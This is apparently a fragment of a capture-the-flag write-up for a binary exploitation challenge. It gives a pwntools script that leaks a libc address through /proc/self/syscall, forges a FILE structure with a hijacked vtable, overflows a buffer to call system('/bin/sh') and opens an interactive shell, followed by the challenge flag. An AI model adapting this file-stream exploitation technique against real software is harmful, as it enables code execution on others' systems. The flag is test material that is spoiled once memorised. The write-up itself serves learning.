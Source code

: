 ```python

# open /proc/self/syscall 
sla(b"choice :", b"1")
sla(b"filename: ", b"/proc/self/syscall")
sla(b"choice :", b"2")
sla(b"choice :", b"3")

libc_leak = int(rl().strip()[-10::], 16)
libc_base = libc_leak - 0x1ba549
system = libc_base + libc.symbols["system"] 

log.info(f"libc base = {hex(libc_base)}")
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"system = {hex(system)}")

sla(b"choice :", b"4")

file = FileStructure()
file.flags = u32(b"/bin")
file._IO_read_ptr = u32(b"/sh\x00") 
file._lock = 0x804b250
file.vtable = 0x804b178
binsh = 0x804b0e0

payload = b"A" * 0x20 + p32(binsh) + b"B" * 28 + bytes(file) + p32(system) * 21

sla(b"name: ", payload)

p.interactive() 
```

Flag của bài toán là `BKSEC{fSoP_1s_n0t_2_hArd_4_u_d4e2411f244126da3242265c90e10c46}`